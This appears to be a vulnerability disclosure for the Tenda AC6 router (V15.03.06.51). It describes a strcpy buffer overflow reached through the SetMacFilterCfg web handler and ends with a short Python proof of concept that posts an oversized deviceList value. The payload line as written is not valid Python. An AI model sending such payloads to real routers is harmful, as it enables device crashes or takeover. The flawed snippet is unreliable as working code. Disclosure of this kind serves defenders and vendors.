





# buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/SetMacFilterCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html
## Analyse:




get value from macFilterType , and get into if



get value from deviceList , pass to set_macfilter_rules



pass to set_macfilter_rules_by_one



pass to parse_macfilter_rule



finally call strcpy ,cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/SetMacFilterCfg"
payload = 'A'*0x1000h + '\n'

r = requests.post(url, data={'deviceList': payload , 'macFilterType': 1 })
```
